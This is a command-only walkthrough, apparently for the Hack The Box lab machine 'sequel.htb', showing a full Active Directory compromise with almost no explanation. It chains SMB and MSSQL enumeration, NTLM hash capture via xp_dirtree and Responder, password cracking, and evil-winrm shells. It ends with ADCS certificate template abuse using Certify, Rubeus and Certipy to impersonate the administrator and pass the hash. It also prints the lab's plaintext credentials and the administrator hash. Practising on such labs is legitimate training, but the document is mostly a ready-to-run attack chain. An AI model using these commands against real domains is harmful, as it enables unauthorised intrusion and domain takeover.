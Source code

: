 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.202
smbclient -L \\\\10.10.11.202\\
smbclient \\\\10.10.11.202\\Public
python3 -m http.server 80
http://10.10.14.6/SQL%20Server%20Procedures.pdf
./kerbrute_linux_amd64 userenum --dc 10.10.11.202 -d sequel.htb users_0
impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@10.10.11.202
responder -I tun0 -v
EXEC MASTER.sys.xp_dirtree '\\10.10.14.6\test', 1, 1
crackmapexec winrm 10.10.11.202 -u users_3 -p REGGIE1234ronnie --continue-on-success
evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
upload winPEASany.exe
./winPEASany.exe
type C:\sqlserver\Logs\ERRORLOG.bak
crackmapexec winrm 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3
evil-winrm -i 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3
Download Certify.exe https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.7_Any
upload Certify.exe
.\Certify.exe find /vulnerable /currentuser
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
upload cert.pfx
.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx
.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx /getcredentials /show /nowrap
evil-winrm -i 10.10.11.202 -u administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee
git clone https://github.com/ly4k/Certipy.git
python3 setup.py install
certipy req -username Ryan.Cooper@sequel.htb -password NuclearMosquito3 -ca sequel-DC-CA -target 10.10.11.202 -template UserAuthentication -upn Administrator@sequel.htb -dns dc.sequel.htb -debug
certipy auth -pfx administrator_dc.pfx -dc-ip 10.10.11.202
sudo service virtualbox-guest-utils stop
sudo ntpdate -s 10.10.11.202
certipy auth -pfx administrator_dc.pfx -dc-ip 10.10.11.202
evil-winrm -i 10.10.11.202 -u administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee
```



```
nmap -sS -sC -sV -T5 -Pn 10.10.11.202
dc.sequel.htb
```
![image](https://github.com/user-attachments/assets/9263ebf5-8f7b-407d-baa3-e3a46e8540af)

```
smbclient -L \\\\10.10.11.202\\
smbclient \\\\10.10.11.202\\Public
```
![image](https://github.com/user-attachments/assets/f31422ee-e143-4d2a-bef8-505127c28203)

```
python3 -m http.server 80
http://10.10.14.6/SQL%20Server%20Procedures.pdf
PublicUser | GuestUserCantWrite1
```
![image](https://github.com/user-attachments/assets/dd949602-8c3c-435d-b04e-0dc1ecb8d7ff)

```
./kerbrute_linux_amd64 userenum --dc 10.10.11.202 -d sequel.htb users_0
```
![image](https://github.com/user-attachments/assets/53c9d8de-3ef7-4c76-a88d-b3c09f6caa53)

```
impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@10.10.11.202
```
![image](https://github.com/user-attachments/assets/c4f31852-f910-4641-a631-8489f6023ac7)

```
responder -I tun0 -v
EXEC MASTER.sys.xp_dirtree '\\10.10.14.6\test', 1, 1
REGGIE1234ronnie (sql_svc)
```
![image](https://github.com/user-attachments/assets/bb0b8250-4cd0-463a-8fd9-0bd1882b66c2)

![image](https://github.com/user-attachments/assets/eabb3ae2-1343-47d2-8742-7f235c1acd67)

```
crackmapexec winrm 10.10.11.202 -u users_3 -p REGGIE1234ronnie --continue-on-success
evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
```
![image](https://github.com/user-attachments/assets/a62a4cdd-c228-493f-8bde-caa93695ebca)

![image](https://github.com/user-attachments/assets/78b2d28d-f869-4b04-8b55-2ec48b8db114)

```
upload winPEASany.exe
./winPEASany.exe
```
![image](https://github.com/user-attachments/assets/170c7e63-ac22-43db-896d-fae7a896190b)

```
type C:\sqlserver\Logs\ERRORLOG.bak
```
![image](https://github.com/user-attachments/assets/53099c6d-e9cb-4d4a-8606-fa52dea217f3)

![image](https://github.com/user-attachments/assets/cd62b77f-eaad-4fbc-9e40-d95f595cb14e)

```
crackmapexec winrm 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3
```
![image](https://github.com/user-attachments/assets/bb11ad81-6b7a-4469-a77a-b9f5db898f5a)

```
evil-winrm -i 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3
```
![image](https://github.com/user-attachments/assets/95b9055c-951e-4a11-855b-ee410f182df7)

```
Download Certify.exe https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.7_Any
upload Certify.exe
.\Certify.exe find /vulnerable /currentuser
```
![image](https://github.com/user-attachments/assets/291c9e18-5898-42e1-af69-1827741ff159)

![image](https://github.com/user-attachments/assets/982539d6-95a6-4b91-8d6a-9c1b6c695ca4)

```
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator
```
![image](https://github.com/user-attachments/assets/2a436b62-2ab5-48d8-94f7-4b6af84b6493)

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter no password
```
![image](https://github.com/user-attachments/assets/0bde621d-fe4b-493d-9f38-3ece278b7e9b)

```
upload cert.pfx
.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx
```
![image](https://github.com/user-attachments/assets/6a4ab877-c5ea-4fef-9ce5-4da8f5eee66a)

```
.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx /getcredentials /show /nowrap
```
![image](https://github.com/user-attachments/assets/39fbe789-1258-426c-ae50-07de66d154c6)


```
evil-winrm -i 10.10.11.202 -u administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee
```
![image](https://github.com/user-attachments/assets/9a786f1d-7388-4793-9eb6-318c435f64df)

# OR1
```
git clone https://github.com/ly4k/Certipy.git
python3 setup.py install
Certipy
```
![image](https://github.com/user-attachments/assets/1bf7e649-bcca-4ca8-9648-5670bfe5b0ed)

```
certipy req -username Ryan.Cooper@sequel.htb -password NuclearMosquito3 -ca sequel-DC-CA -target 10.10.11.202 -template UserAuthentication -upn Administrator@sequel.htb -dns dc.sequel.htb -debug
certipy auth -pfx administrator_dc.pfx -dc-ip 10.10.11.202
```
![image](https://github.com/user-attachments/assets/801fdd01-029e-4076-b95c-ae91c65661a7)

```
sudo service virtualbox-guest-utils stop
sudo ntpdate -s 10.10.11.202
certipy auth -pfx administrator_dc.pfx -dc-ip 10.10.11.202
```
![image](https://github.com/user-attachments/assets/1327812c-7770-4ad0-bddf-bf280b2d149d)

```
evil-winrm -i 10.10.11.202 -u administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee
```
![image](https://github.com/user-attachments/assets/2f8c2ee8-2536-4e1f-87dc-2628f7ee26e2)

# OR2
```
certipy req -u ryan.cooper -p NuclearMosquito3 -target 10.10.11.202 -upn administrator@sequel.htb -ca sequel-dc-ca -template UserAuthentication
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.202
```
![image](https://github.com/user-attachments/assets/165e8554-4d93-4dca-8b36-1b5cb4191337)

